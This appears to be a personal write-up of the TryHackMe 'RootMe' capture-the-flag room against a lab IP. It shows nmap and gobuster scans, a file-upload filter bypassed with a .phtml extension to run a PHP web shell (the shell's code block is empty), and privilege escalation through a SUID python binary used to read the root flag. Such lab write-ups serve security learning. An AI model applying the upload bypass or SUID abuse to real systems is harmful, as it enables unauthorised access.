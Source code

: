 # RootMe

```{sh}
>> nmap 10.10.240.217 -sV

Starting Nmap 7.80 ( https://nmap.org ) at 2024-02-17 09:58 CET
Nmap scan report for 10.10.240.217
Host is up (0.049s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.76 seconds

```


```{sh}
>>  gobuster dir -u http://10.10.240.217 -w ../../Tools/SecLists/Discovery/

Web-Content/common.txt 
===============================================================
Gobuster v3.4
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.240.217
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                ../../Tools/SecLists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.4
[+] Timeout:                 10s
===============================================================
2024/02/17 10:03:13 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 278]
/.hta                 (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/css                  (Status: 301) [Size: 312] [--> http://10.10.240.217/css/]
/index.php            (Status: 200) [Size: 616]
/js                   (Status: 301) [Size: 311] [--> http://10.10.240.217/js/]
/panel                (Status: 301) [Size: 314] [--> http://10.10.240.217/panel/]
/server-status        (Status: 403) [Size: 278]
/uploads              (Status: 301) [Size: 316] [--> http://10.10.240.217/uploads/]
Progress: 4625 / 4712 (98.15%)
===============================================================
2024/02/17 10:03:37 Finished
===============================================================

```

I can upload files, but not all types.

- idea: see if apache 2.2.49 has any known vulnerabilities (so far no luck)

- idea: check for other types of files that can be server side executed: 

    html    allowed     : served
    php     prohibited  : executed ?
    py      allowed     : downloaded
    asp     allowed     : downloaded
    jsp     allowed     : served
    perl    allowed     : downloaded

    conclustion: not different ones for now
    - idea: how do i circumvent the prohibition? after trying some things with burp suite, i thought it is probably only checking the extension, so php is no go.
    
    other related types to php: phtml ---> executes as php :) 

So now we can execute php code. The original idea was to use a direct reverse shell, but since i was unable to get it working, i used a php shell instead. 

```{php}


```{sh}
>> 'find / -type f -name "user.txt" 2>/dev/null'
>> 'cat /var/www/user.txt'
```

After this and by using the following command, i got the unsafe executable file:

```{sh}
>> find / -type f -perm /u+s -exec ls -la {} \;

...
-rwsr-sr-x 1 root root 3665768 Aug  4  2020 /usr/bin/python
...

```


so /usr/bin/python has the suid set. By executing the following command, i got the root flag:

```{py}

import subprocess

subprocess.call(['find', '/','-type', 'f', '-name', 'root.txt'])
subprocess.call(['cat','/root/root.txt'])

```

(since this calls fork and exec, the suid bit is not dropped (which happened for me with os.system)), and since the python binary is owned by root, the root flag is printed.

Actually, this room made me decide on working in a simple php shell that worked in the browser, since i still was unable to get the reverse shell working (the shell not being able to reach me back). I will try to get the reverse shell working in the next room, but as a last resort, i will use the php shell again. You can find it in /Tools/soften/self_made/shell.php
